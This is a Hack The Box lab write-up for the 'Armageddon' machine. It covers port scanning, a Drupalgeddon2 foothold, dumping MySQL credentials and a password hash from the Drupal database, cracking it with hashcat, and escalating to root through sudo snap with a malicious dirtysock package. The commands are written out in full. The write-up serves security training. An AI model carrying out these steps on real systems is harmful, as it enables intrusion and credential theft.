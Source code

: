```yaml
---
title: "[HTB] Machine: Armageddon"
description: "[HTB] Machine: Armageddon"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: Armageddon"
    identifier: htb-machine-Armageddon
    parent: htb-machines-linux
    weight: 10
hero: images/Armageddon.png
tags: ["HTB", "drupal", "webshell", "upload", "hashcat", "mysql", "sudo", "snap", "snapcraft"]
---
```


# Armageddon
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 17:41 BST
Nmap scan report for 10.10.10.233 (10.10.10.233)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.20 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.233 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php -no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.233
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] No status:               true
[+] Timeout:                 10s
===============================================================
2023/08/07 18:29:26 Starting gobuster in directory enumeration mode
===============================================================
/index.php            [Size: 7440]
/misc                 [Size: 233] [--> http://10.10.10.233/misc/]
/themes               [Size: 235] [--> http://10.10.10.233/themes/]
/modules              [Size: 236] [--> http://10.10.10.233/modules/]
/scripts              [Size: 236] [--> http://10.10.10.233/scripts/]
/sites                [Size: 234] [--> http://10.10.10.233/sites/]
/includes             [Size: 237] [--> http://10.10.10.233/includes/]
/install.php          [Size: 3172]
/profiles             [Size: 237] [--> http://10.10.10.233/profiles/]
/update.php           [Size: 4057]
/README.txt           [Size: 5382]
/robots.txt           [Size: 2189]
/cron.php             [Size: 7388]
/INSTALL.txt          [Size: 17995]
/LICENSE.txt          [Size: 18092]
/CHANGELOG.txt        [Size: 111613]
/xmlrpc.php           [Size: 42]
/COPYRIGHT.txt        [Size: 1481]

```
- Web Server
  - We see `Drupal 7`

![](./images/1.png)
![](./images/2.png)

## Foothold
- `Drupal` version and `searchsploit`

![](./images/4.png)
![](./images/3.png)

- We have `drupalgeddon3` and `drupalgeddon2`
  - Let's start with `drupalgeddon2` 
  - There is a [github post](https://github.com/dreadlocked/Drupalgeddon2)
  - Got reverse shell, but couldn't upgrade the shell

![](./images/5.png)
![](./images/6.png)
![](./images/8.png)

## User
- Enumerate users
```
bash-4.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```
- `grep -irln "password" .` in `/var/www/html`
  - We see `./sites/default/settings.php`
  - `drupaluser:CQHEy@9M*m23gBVj`

![](./images/7.png)

- Since these are `mysql` creds, let's check `db`
  - I have to run db commands from cmd, since I don't have PTY

```
bash-4.2$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'show tables;'
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'show tables;'
Tables_in_drupal
actions
authmap
batch
...
users
users_roles
variable
watchdog
```
```
bash-4.2$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'select * from users;'
<er -p'CQHEy@9M*m23gBVj' drupal -e 'select * from users;'                    
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu a:1:{s:7:"overlay";i:1;}

```

- Let's crack the hash with `hashcat`
  - `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`
  - `hashcat -m 7900 hash /usr/share/wordlists/rockyou.txt`
  - `brucetherealadmin:booboo`

![](./images/9.png)

- `ssh` as `brucetherealadmin`

![](./images/10.png)

## Root
- Enumerate `sudo` rights
  - [GTFOBins](https://gtfobins.github.io/gtfobins/snap/)

![](./images/11.png)

- So I found this [post](https://notes.vulndev.io/wiki/redteam/privilege-escalation/misc-1) which crafts malicious `snap` package
  - The payload is from [this] dirtysock poc

![](./images/12.png)


- Let's run `sudo` according to `GTFOBins` with our malicious package and get root

![](./images/13.png)
